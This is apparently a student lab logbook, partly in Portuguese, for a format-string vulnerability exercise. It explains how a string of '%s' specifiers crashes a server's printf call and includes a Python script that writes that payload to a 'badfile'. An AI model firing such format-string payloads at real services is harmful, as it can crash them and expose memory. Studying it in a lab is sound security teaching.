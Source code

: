 # LOGBOOK7 - Format-String Vulnerability Lab
## Task 1: Crashing the Program
>Your task is to provide an input to the server, such that when the server program tries to print out
the user input in the myprintf() function, it will crash. You can tell whether the format program has
crashed or not by looking at the container’s printout. If myprintf() returns, it will print out "Returned
properly" and a few smiley faces. If you don’t see them, the format program has probably crashed.
However, the server program will not crash; the crashed format program runs in a child process spawned
by the server program.

<div <div align="justify">
<p>
Para esta tarefa é nos pedido que construamos um input que faça com que o programa 'crash'. Para tal, pensamos em utilizar uma string composta unicamente por %s. Isto deve-se ao facto de que, ao utilizar %s, este obtem o valor que se encontra num localização de memória, e imprime-o. Assim, se colocarmos um número de %s signficativo, o programa poderá tentar aceder a uma localização que esteja protegida ou mesmo aceder a uma localização que não existe, o que irá fazer com que o programa 'crash'.
O input que utilizamos foi o seguinte:
</p>
</div>

```python

#!/usr/bin/python3
import sys


# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))


# This line shows how to construct a string s with
# 10 of "%s"
s = "%s"*10

# The line shows how to store the string s at the beginning of the content
fmt  = (s).encode('latin-1')
content[0:0+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:

  f.write(content)

```
